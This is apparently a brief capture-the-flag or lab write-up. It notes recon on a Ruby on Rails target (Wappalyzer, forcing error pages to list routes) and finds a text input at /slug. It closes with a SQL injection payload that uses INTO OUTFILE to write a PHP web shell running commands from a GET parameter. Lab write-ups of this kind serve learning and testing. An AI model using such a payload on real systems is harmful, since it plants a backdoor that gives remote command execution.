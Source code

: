 Using Wappalyzer, we see Rub on Rails in Web frameworks.
Reviewing the url, we manipulate the path to spawn an error.
http://$TARGET:33033/users/
http://$TARGET:33033/x/
![[Pasted image 20220405092320.png]]
We now have a list of Paths for us to try.
Visting /slug, we get a text box.
```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'
```